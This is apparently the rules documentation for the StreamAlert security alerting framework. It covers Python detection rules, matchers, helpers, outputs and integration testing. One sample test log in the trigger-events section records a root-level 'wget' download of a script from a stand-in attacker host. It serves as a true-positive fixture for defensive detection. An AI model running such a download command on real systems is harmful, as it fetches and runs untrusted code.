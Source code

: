 Rules
=====

* Rules encompass data analysis and alerting logic
* Rules are written in native Python, not a proprietary language
* A Rule can utilize any Python function or library
* A Rule can be run against multiple log sources if desired
* Rules can be isolated into defined environments/clusters
* Rule alerts can be sent to one or more outputs, like S3, PagerDuty or Slack
* Rules can be unit tested and integration tested

Getting Started
---------------

* Rules are located in the ``rules/`` sub-directory.
* Generally, a separate rule file should be created for each cluster defined in the ``variables.json`` file.
  * examples: ``corp.py``, ``pci.py``, or ``production.py``
  * This structure is optional, you can organize rules however you would like.

After defining a new rule file, you must import them in the ``main.py`` file (found in the repo root).  For the given examples above, this would be::

  from rules import (
      corp,
      pci,
      production
  )

.. note:: If you skip the above step, your rules will not load when AWS Lambda runs.

Overview
--------

Each new rule file must contain the following at the top::

  from stream_alert import rule_helpers
  from stream_alert.rules_engine import StreamRules
  rule = StreamRules.rule

All rules take this structure::

    @rule('example', 
          logs=[...],
          matchers=[...],
          outputs=[...])
    def example(record):
        # record analysis             # analyze the incoming record w/ your logic
        return True                   # return True if an alert should be sent

You define a list of ``logs`` that the rule is applicable to.  Rules will only be evaluated against incoming records that match the declared log types.

Example
-------

Here’s an example that alerts on the use of sudo in a PCI environment::

    from fnmatch import fnmatch

    @rule('production_sudo',                          # name of the rule
          logs=['osquery'],                           # applicable datasource(s)
          matchers=['pci'],                           # matcher(s) to evaluate
          outputs=['s3', 'pagerduty', 'slack'])       # where to send alerts
    def production_sudo(record):                      # incoming record/log
        table_name = record['name']
        tag = record['columns']['tag']
        return (
          table_name == 'linux_syslog_auth' and
          fnmatch(tag, 'sudo*')
        )

You have the flexibility to perform simple or complex data analysis

Parameter Details
-----------------

logs
~~~~~~~~~~~

``logs`` define the log sources the rule supports; the ``def`` function block is not run unless this condition is satisfied.

* A rule can be run against multiple log sources if desired.
* Log sources (e.g. datasources) are defined in ``conf/sources.json`` and subsequent schemas are defined in ``conf/logs.json``. For more details on how to setup a datasource, please see the Datasources section.

matchers
~~~~~~~~

``matchers`` define the conditions that must be satisfied before rule is evaluated.  This serves two purposes:

* To extract common logic from rules, which improves readability and writability
* To ensure necessary conditions are met before full analysis of an incoming record

Matchers are defined in ``rules/matchers.py`. If desired, matchers can also be defined in rule files if the following line is added to the top::

  matcher = StreamRules.matcher

In the above example, we are evaluating the ``pci`` matcher.  As you can likely deduce, this ensures alerts are only triggered if the incoming record is from the ``pci`` environment. This is achieved by looking for a particular field in the log. The code::

    @matcher('pci')
    def is_prod_env(record):
        return record['decorations']['envIdentifier'] == 'pci'


outputs
~~~~~~~

``outputs`` define where the alert should be sent to, if the return value of the function is ``True``.

StreamAlert supports sending alerts to PagerDuty, Slack and Amazon S3. As demonstrated in the example, an alert can be sent to multiple destinations.


Helpers
-------
To improve readability and writability of rules, you can extract commonly used ``Python`` processing logic into custom helper methods.   These helpers are defined in ``stream_alert/rule_helpers.py`` and can be called from within a matcher or rule.

Example function::

    def in_set(data, whitelist):
        """Checks if some data exists in any elements of a whitelist.

        Args:
            data: element in list
            whitelist: list/set to search in

        Returns:
            True/False
        """
        return any(fnmatch(data, x) for x in whitelist)

Example use of that function within a rule::

    @rule('foobar', ...)
    def foobar(record):
        user = 'joe'
        user_whitelist = { 'mike', 'jin', 'jack', 'mary' }

        return in_set(user, user_whitelist)


Rules Testing
-------------

In order to test the effectiveness of our new rules, you can run a set of local integration tests to verify alerts would be triggered.  The `stream_alert_cli.py` command line tool comes built-in with a `lambda test` command.

Configuration
~~~~~~~~~~~~~

To get started, create (or find) an example log for your given rule.  If the rule you added expects incoming records to be JSON, add a raw JSON record into the ``trigger_events.json `` file for the related stream.

Example logs will be stored in the ``test/integration/fixtures/kinesis`` subdirectory.  A new folder should be created for each Kinesis stream as declared in your `sources.json <conf-datasources.html>`_.  

Within each of these folders, add the following two files:

* ``trigger_events.json``
* ``non_trigger_events.json``

These files allow you to separate true positives from false positives.

Recall our earlier example that alerts on the use of ``sudo`` in the ``pci`` environment. In ``trigger_events.json``, you would add an example log that should alert::

  {
    "name": "linux_syslog_auth",
    "hostIdentifier": "foobar",
    "unixTime": "1470824034",
    "decorations": {
      "envIdentifier": "pci",
      "roleIdentifier": "memcache"
    },
    "columns": {
      "tag": "sudo",
      "message": "john_adams : TTY=pts/0 ; PWD=/home/john_adams ; USER=root ; COMMAND=/usr/bin/wget http://evil.tld/x.sh",
      "facility": "authpriv"
    },
    "action": "added"
  }

.. warning:: One event per line. This log was put on multiple lines for readability and education purposes.

And lastly, in ``non_trigger_events.json``, you would add an example that shouldn't fire.

Running Tests
~~~~~~~~~~~~~

To test an example record coming from Kinesis::
  
  ./stream_alert_cli.py lambda test --func alert --source kinesis

To test example records from S3::
  
  ./stream_alert_cli.py lambda test --func alert --source s3

.. note:: coming soon - Amazon S3 testing instructions